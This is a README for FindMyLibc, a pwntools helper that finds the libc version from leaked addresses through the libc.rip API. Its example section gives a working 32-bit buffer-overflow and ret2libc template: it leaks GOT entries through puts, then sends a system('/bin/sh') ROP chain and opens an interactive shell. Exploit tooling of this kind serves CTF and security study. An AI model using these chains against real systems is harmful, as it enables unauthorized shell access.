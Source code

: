 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
The shortest path to victory 🏆

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
Download this repo:  
```
git clone https://github.com/omrina/FindMyLibc.git
```  
Then just import:  
```
from FindMyLibc import *
```    
And use the only function you need:
```
matching_libc = find_libc(elf, leak_libc_address)
```  

See below the example.

# Example
Here's a simple example of exploit script (see [`./example.py`](https://github.com/omrina/FindMyLibc/blob/main/example.py)).

### Setup your binary exploit script:
Whatever you need...
```
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### We need to set up a "leak address" function:

```
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `./example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How do we use the results:
You would probably need only `syms`, each value is the integer of the calcualted address, so you can use it like:
```
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
`_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']`  
Then it makes reqeusts to the public `https://libc.rip/api/find'`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
`matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)`


